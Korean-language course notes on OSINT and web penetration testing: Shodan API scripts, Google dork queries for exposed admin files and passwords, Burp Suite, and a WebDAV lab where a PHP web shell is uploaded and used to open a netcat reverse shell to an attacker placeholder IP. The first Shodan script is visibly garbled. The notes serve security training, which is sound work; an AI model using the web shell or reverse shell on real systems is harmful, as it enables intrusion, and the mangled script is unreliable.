






# day 2 - Shodan API Python Coding


# shodan API를 이용해 코딩

```python
import shodan
import sys
 
API_KEY="your API KEY"
 
try:
    api = shoquery = ''.join(sys.argv[1:])
    result = api.search(query)
 
    for service in result['matches']:
        print service['ip_str']
 
except Exception as e:
    print 'Errordan.Shodan(API_KEY): %s' %e
    sys.exit(1)
```

- ```python
  api = shodan.Shodan([shodan api 키값])
  ```

  변수에 shodan api를 할당받아 사용한다

- ```python
   sys.argv[1:]
  ```

  코드 실행시 외부에서 주어지는 파라미터를 코드에서 활용하는 방법

  ### 실행 화면

  


## 중간 퀴즈 : shodan python coding

1. FTP 익명 연결로 된 사이트 주소
2. 제일 위에 결과의 수

## shodan python - facets 활용

- facets 옵션은 하나만 적용이 가능
- python 코드로 작성해 여러 항목으로 facets 적용 및 출력

```python
import shodan
import sys

API_KEY = 'Your API KEY'


FACETS = [
    'org',
    'domain',
    'port',
    'asn',
    ('country', 3),
]

FACET_TITLES = {
    'org': 'Top 5 Organizations',
    'domain': 'Top 5 Domains',
    'port': 'Top 5 Ports',
    'asn': 'Top 5 Autonomous Systems',
    'country': 'Top 3 Countries',
}


if len(sys.argv) == 1:
    print 'Usage: %s <search query>' % sys.argv[0]
    sys.exit(1)

try:
    api = shodan.Shodan(API_KEY)
    query = ' '.join(sys.argv[1:])
    result = api.count(query, facets=FACETS)
    print 'Shodan Summary Information'
    print 'Query: %s' % query
    print 'Total Results: %s\n' % result['total']
    for facet in result['facets']:
        print FACET_TITLES[facet]
        for term in result['facets'][facet]:
            print '%s: %s' % (term['value'], term['count'])
        print ''

except Exception, e:
    print 'Error: %s' % e
    sys.exit(1)
```

- 실행 화면


## HFS 검색

```python
import shodan
import re
sites =[]
shodanKeyString = 'Your API KEY'
shodanApi = shodan.Shodan(shodanKeyString)
results = shodanApi.search("Server: HFS") # 띄어쓰기 주의

for match in results['matches']:
    if match['ip_str'] is not None:
        print match['ip_str']
        sites.append(match['ip_str'])
```

- 실행

```bash
# python hfs.py > hfs.txt
```

### 참조

#### HFS

- http file server 의 약자
- http를 기반으로 하는 파일 전송 서버
- 악성코드 배포에 활용됨


## Safe Browsing

```python
import time
from pysafebrowsing import SafeBrowsing
safe_key = SafeBrowsing("Safe_Browsing_Key")

f = open("hfs.txt")
lines = f.readlines()
for line in lines:
    print(line)
    time.sleep(2)
    r = safe_key.lookup_urls([line])
    print(r)
f.close()
```

- 실행 결과



- hfs.txt를 통해 hfs의 위치를 넘겨받는다
- 해당 리스트 중 safe browsing에 걸리는 사이트들을 보여준다


### 참조 : 보안 API 활용 서비스

- Quttera : URL 평판 제공 서비스
- phishtank : 피싱 사이트 여부 확인
- Safebrowsing : 의심 사이트 여부 확인


# Google 해킹 및 OSINT


## 구글해킹 - OSINT 필수 점검 항목

0. 악의적으로 이용되어 구글**해킹** 이라고 부름

1. 관리자 페이지에 중요 엑셀(개인정보 포함)
2. 관리자의 로그인 페이지가 접근이 되는지? -> 접근통제(인증)
3. 서버의 로그 파일들이 외부에 노출되는지
4. 서버 설정이 미흡해 index of 취약점 - 상위 디렉토리 정보가 노출?

**ex)** stie:naver.com inurl:admin filetype:xls

**ex)** site:naver.com inurl:admin intext:passwd


- 구글 해킹은 크롤링 기법으로 캐시에 저장하는 방식이다
- 위의 1 ~ 4 번과 같은 취약점이 발생할 수 있으므로 주기적으로 점검 해주어야 한다.


### 참조

관련 문서 : http://coffeenix.net/data_repository/pdf/googledork.pdf

exploit-db (Google Hacking Database 항목) : https://www.exploit-db.com/google-hacking-database


#### 웹 스캔 도구(상용)

- Accunetix
  - GHDB 항목 존재
- Appscan
  - GHDB 항목 존재
- Burpsuite Pro


# Remind: OSINT란 무엇인가?

## OSINT (Open Source Intelligence)

공개된 출처에서 얻은 정보를 말한다. 해당 출처는 아래와 같다.

- Shodan
- Google
- etc


## OSINT를 아예 막아야 할까?

- 쇼단
  - IPS/방화벽 등에 IP 차단?
    - 더이상 포트 스캔을 할 수 없다.
    - 정보 수집이 불가능해진다.
- 구글
  - 페이지 삭제
    - 오래된 정보 삭제 요청
  - 더이상 크롤링 하지 못하도록 설정
    - [google.com]/robots.txt 에 설정 : 봇이 확인하는 텍스트 문서, 로봇을 통한 자동 스캔에 접근하지 않도록 함
      - Disallow: ~  접근할경우 법적 대응을 할 것이라는 의미
      - Allow:~ 크롤링을 허용하는 경우
      - admin(관리자 페이지) : 로그인 없이 접근
      - inurl: **index of**
        - 목록화 되어있는 것을 index of 라고 말한다
        - 보여져도 되는 정보라면 취약점이 아니나 숨겨야할 정보라면 취약점으로 분류한다.
      - 보안설정 미흡으로 인한 버전정보 노출

- beebox robots.txt



- ~/passwords (index of 취약점)

  

  - 위 목록에서 config 파일을 통해서 웹 설정을 들여다 보는 것이 가능하다
  - Web에 연결된 WAS, DB에 대한 연결정보를 config 파일을 통해서 알아낼 수 있다.
  - wp 는 Word Press를 가리킨다.
  - 백업 파일 노출

### 모든 크롤링을 막으면 되지 않을까?

- **Disallow: /**
  - 보안적으로 강화되는 것은 사실
  - 다만 전혀 크롤링이 되지 않기 때문에 홍보가 되지 않는다
  - 마케팅적 측면에서 좋지 못하다


## 과제

- 구글 해킹 GHDB를 이용해 활용한 오픈 소스 도구를 조사 실습

- Shodan을 활용한 오픈 소스 파이썬 도구 조사 실습


# Burp Suite


## 웹 프록시


컴퓨터 (브라우저) ---------------------------------------------------->>> 서버(server)

​            |                                                                                                    |

​       웹프록시                                                                                            |

​			|---------------------------------------------------------------------------------|


- 프록시를 통해서 서버에 접속
- Burp Suite가 웹프록시의 역할을 한다
  - 특정 목적지에 대한 패킷을 잡아서 확인이 가능하다
    - Target - Scope 설정으로 특정 목적지에 대한 패킷을 범위 설정 가능
    - Proxy - Option 에서 Scope에 대한 값만 잡도록 설정 가능하다
  - Intercept - Intercept is on 으로 패킷을 잡아둘수 있음
    - 해당 패킷의 내용물 확인 가능
  - 다시 off로 바꿀 경우 패킷이 전송되어 페이지가 전환됨을 확인할 수 있다.


## Option - GET, POST, PUT, MOVE, DELETE

- 여러 종류의 메소드가 존재
- 어느 메소드까지 허용할 것인지 정해야 한다.
- 일반적으로 **인증이 필요한 페이지** 의 경우 GET, POST만 허용하고 있다.


### REST API - GET, POST, PUT, UPDATE ...

- 마찬가지로 REST API 또한 어디까지 허용할 것인지 결정해야 한다.


### 참조

- 서버 사이드 Script
  - php
  - jsp


## Burp Suite를 통한 파일 업로드

1. 패킷 인터셉트

   

2. 내용 수정 (GET -> PUT, 파일명)

```php
<?php
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
	system($cmd);
	die;
	echo "</pre>";
?>
```



3. php 스크립트 실행후 명령어 실행해보기 (ls -al)

- 업로드된 shell 파일에 들어간다
- 다음과 같이 입력한다

```http
http://192.168.179.131/webdav/shell3.php?cmd=ls -al
```


- 명령어가 실행됨을 확인할 수 있다.


## Reverse Shell : 연속적인 명령어

침입할 PC의 쉘을 공격자의 PC에 붙여서 직접 쉘을 통해 명령어를 내리는 방법이다

이 경우 연속적으로 다수의 명령어를 내릴수 있게 된다.


- 메소드 허용 - 웹쉘 - 명령여(서버) - cmd

- 공격자(port : 7777)에게 침투 컴퓨터에 대한 권한을 부여하도록 한다.

- 공격자 (칼리 리눅스) : 7777번 포트 Listening 상태

  ```bash
  # nc -lvp 7777
  ```

  

- 침입할 PC에서 공격자의 PC의 쉘에 붙도록 명령

  ```bash
  http://192.168.179.131/webdav/shell3.php?cmd=nc [공격자 IP] 7777 -e /bin/sh
  ```

- 다음과 같이 칩입할 PC의 쉘이 공격자의 쉘에 붙게 된다




## cadaver

- webdav 취약점을 공격하는 도구
- 이를 이용해 **PUT** 명령어를 사용해 손쉽게 php_backdoor 코드를 webdav에 업로드 하는것이 가능하다
- 이를 통해 업로드한 백도어를 통해 쉘 명령어, 데이터베이스 접근이 가능하다.


## devTest - 사용해볼것

- 칼리 리눅스 내장 pent test 도구


## nikto - 웹서버 취약점 스캐너

- 웹 취약점을 간단하게 분석가능한 도구